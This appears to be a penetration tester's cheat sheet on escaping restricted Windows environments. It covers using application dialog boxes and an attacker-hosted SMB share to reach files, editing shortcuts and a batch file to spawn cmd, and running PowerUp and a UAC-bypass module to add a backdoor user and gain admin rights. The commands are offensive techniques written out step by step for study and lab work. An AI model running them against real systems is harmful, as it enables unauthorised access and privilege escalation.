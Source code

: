 VM Breakout

1. Gain access to a Dialog Box
2. Exploit the Dialog Box to achieve command execution
3. Escalate privileges to gain higher levels of access

Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box.

Tools:
- Paint
- Notepad
- Wordpad

1. Start Paint
2. Click open
3. Type in "\\127.0.0.1\c$\users\pmorgan" under File name field, with all files selected.


## Accessing SMB Share from restricted environment

1. Start smb server from Ubuntu machine
```
smbserver.py -smb2support share $(pwd)
```
2. Type in "\\10.13.38.95\share" under File name field, with all files selected.


**Alternate Explorer
In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like Q-Dir or Explorer++ can be employed as a workaround.
- Explorer++: https://explorerplusplus.com/

**Alternate Registry Editors
- Simpleregedit: https://sourceforge.net/projects/simpregedit/
- Uberregedit: https://sourceforge.net/projects/uberregedit/
- SmallRegistryEditor: https://sourceforge.net/projects/sre/


## Modify existing shortcut file

1. Right-click on desired shortcut
2. Select Properties
3. Within the Target field, modify the path to the intended folder for access (C:\Windows\System32\cmd.exe)
4. Execute the Shortcut and cmd will be spawned

If there is not already a shortcut, we can transfer an existing shortcut file using an SMB server or generate a malicious .lnk file


## Script Execution

1. Create a new text file and name it "evil.bat"
2. Open 'evil.bat' with a text editor such as a Notepad.
3. Input the command 'cmd' into the file.
4. Save the file.


## Escalating Privileges
WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
PowerUp: https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1
```ps
Import-Module .\PowerUp.ps1
Write-UserAddMSI
```
```cmd
runas /user:backdoor cmd
```

**Bypassing UAC
https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC
```
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
whoami /all
```
